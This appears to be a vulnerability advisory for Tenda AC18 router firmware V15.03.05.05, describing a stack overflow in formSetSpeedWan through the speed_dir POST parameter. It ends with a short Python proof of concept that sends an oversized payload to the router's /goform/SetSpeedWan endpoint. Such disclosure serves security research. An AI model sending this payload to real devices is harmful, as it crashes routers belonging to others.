 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetSpeedWan` function. The `v7` variable receives the `speed_dir` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `v7` can trigger this security vulnerability.

![image-20240305231334076](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231334076.png)

![image-20240305231341818](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231341818.png)

![image-20240305231353586](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231353586.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSpeedWan"
payload = b"a"*1000


data = {"speed_dir": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305231235284](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231235284.png)
